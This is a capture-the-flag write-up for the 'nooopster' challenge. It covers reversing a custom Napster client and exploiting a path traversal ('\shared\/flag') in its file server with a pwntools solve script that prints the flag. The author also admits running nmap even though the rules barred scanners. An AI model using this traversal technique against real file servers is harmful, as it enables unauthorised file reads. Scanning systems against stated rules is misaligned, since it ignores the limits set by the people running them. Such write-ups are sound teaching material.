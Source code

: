 # nooopster

**Category**: Pwn, Rev \
**Points**: 115 (74 solves)

## Challenge

I don't remember the exact description, but it was something like "Let's share
files like it's 1999".

Attachments:
- `nooopster.vpn`
- `openvpn.shared.key`

## Overview

We're given an OpenVPN config and key:
```
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 9
```

Using OpenVPN 2 we can connect like so
```
openvpn --config nooopster.ovpn
```

Based on the OpenVPN config we know the server is up at `192.168.5.1`. Though
using automated scanners are against the CTF rules, I didn't know what else to
do so I just ran nmap on it:
```
PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

After wasting an hour trying to figure out how to connect, I eventually asked
the challenge author what the intended service was. Turns out it's
[Napster](https://en.wikipedia.org/wiki/Napster) (haha because the challenge is
called nooopster, duh), which is some music sharing service popular in 1999.

Luckily Ubuntu 16.04 still has a Napster client in the official repos:
```dockerfile
FROM ubuntu:16.04
RUN apt-get update && apt-get install nap
CMD /bin/bash
```

Then we can connect like so:
```
nap -s 192.168.5.1:8888
/join #chat
```

![c.png](c.png)

Ok, let's check out his files
```
/browse nooopster
```

![f.png](f.png)

We see about 200 MP3 files (all of them are Rickrolls) and one file called
`nooopster`, which is an ELF binary.

After opening it in Ghidra, we can see that it's a custom Napster client that
the `nooopster` bot is presumably using. Our goal is to pwn the client.

## Solution

The `nooopster` client has all mitigations enabled so getting RCE probably
isn't the intended solution since the challenge is categorized as "easy". Since
the client has some file sharing functionality, the goal is probably to get
arbitrary file read.

Here's what I found after reversing it in Ghidra:
- It connects to port 8888 of the IP supplied in `argv[1]`
- It checks if the nickname `nooopster` has been taken on the server
- If not, it does `pthread_create` to host a file server on port 7070 in the
  background
- It lists the files in `./shared` and sends the filenames to the Napster server
- Then it polls the Napster connection with a timeout of 10 seconds,
  repeating the same four messages over and over again
- It also checks for download requests and responds appropriately according to
  the [Napster spec](http://opennap.sourceforge.net/napster.txt)

There were only two places where files were read:
1. The file server running on port 7070
2. A weird `fopen` call in `main`. After playing around for a while, it seemed
   like the `fopen` was unreachable, so I don't know what it was even there for.

Since I suck at static analysis, I switched to GDB after I realized that if I
changed the nickname the client used, I could run it without any issues.

Turns out the bug was in this `parse_filepath()` function (the binary was
stripped so this is just the name I gave to the function). The filepath needs
to start with `\shared\blah` and `parse_filepath()` just returns `blah`.
However it doesn't check for any funny business so we can just do
`\shared\/flag` and it will return `/flag`.

Here's short clip showing how this `parse_filepath()` function can be found in Ghidra:
[ghidra.mp4](ghidra.mp4)

Solve script:
```python
import pwn
import time
from enum import IntEnum


def send(msg: bytes, type: int):
    p = pwn.p16(len(msg)) + pwn.p16(type) + msg
    io.send(p)
    res = io.clean(timeout=0.5)
    print(f"[*] Response: {res}")


class Type(IntEnum):
    LOGIN = 2
    JOIN_CHANNEL = 0x190
    PUBLIC_MSG = 0x192
    DOWNLOAD_REQUEST = 0xCB


# We need to request a download before the file server on port 7070 will let us
# download anything
io = pwn.remote("192.168.5.1", 8888)
send(b'qxxxb wmtidxal 0 "nap v1.5.4" 4', Type.LOGIN)
send(b"#chat", Type.JOIN_CHANNEL)
send(b"#chat hello", Type.PUBLIC_MSG)
send(r'nooopster "\shared\nooopster"'.encode(), Type.DOWNLOAD_REQUEST)

io = pwn.remote("192.168.5.1", 7070)
io.send(r'GETqxxxb "\shared\/flag" 0')
io.interactive()
```

Output:
```
$ python3 solve.py
[+] Opening connection to 192.168.5.1 on port 8888: Done
[*] Response: b'\x0b\x00\x03\x00anon@(none)\x14\x00m\x02VERSION opennap 0.44\r\x00m\x02SERVER (none)-\x00m\x02There have been 2 connections to this server.\x07\x00\xd6\x001 202 0'
[*] Response: b'\x05\x00\x95\x01#chat\x0f\x00\x98\x01#chat qxxxb 0 4\x15\x00\x98\x01#chat nooopster 202 0\x05\x00\x99\x01#chat#\x00\x9a\x01#chat Welcome to the #chat channel.'
[*] Response: b'\x11\x00\x93\x01#chat qxxxb hello'
[*] Response: b'N\x00\xcc\x00nooopster 17148096 7070 "\\shared\\nooopster" 00000000000000000000000000000000 0'
[+] Opening connection to 192.168.5.1 on port 7070: Done
[*] Switching to interactive mode
123OOO{M4573R_0F_PUPP375}
```

## Timeline

- `Saturday 03:00 PM - 04:00 PM`
  - Start challenge
  - Waste time with different OpenVPN versions to get the VPN work
  - Finally realize OpenVPN 2 from the Ubuntu repos works just fine
- `Saturday 04:00 PM - 05:00 PM`
  - Scan ports on server, find 7070 and 8888 and 8889
  - Try MLDonkey on port 7070 because that's what nmap tells me it is
  - Give up and ask challenge author what service it is. Turns out it's Napster
    on port 8888
  - Get `nap` client from Ubuntu 16.04 repos and connect
  - Find about 200 songs (all Rickrolls) and one binary called `nooopster`
- `Saturday 05:00 PM - 08:45 PM`
  - Start reversing `nooopster` in Ghidra, not really understanding what was
    going on
  - Use WireShark on `nap` client. Manage to figure out some basics of the protocol
  - Realize that goal is probably to achieve arbitrary file read
  - Find two places where that's possible
- `Saturday 08:45 PM - 09:45 PM`
  - Dinner + break
- `Saturday 09:45 PM - 11:59 PM`
  - Find the client-server protocol [spec](http://opennap.sourceforge.net/napster.txt)
  - Finally am able to understand Ghidra's disassembly thanks to that
- `Sunday 12:00 AM - 02:00 AM`
  - Figure out that if I change the username used by the `nooopster` binary, I
    can run it and connect it to the server
  - Dynamic reversing in GDB
- `Sunday 02:00 AM`
  - Find bug on the file server on port 7070
  - Get the flag
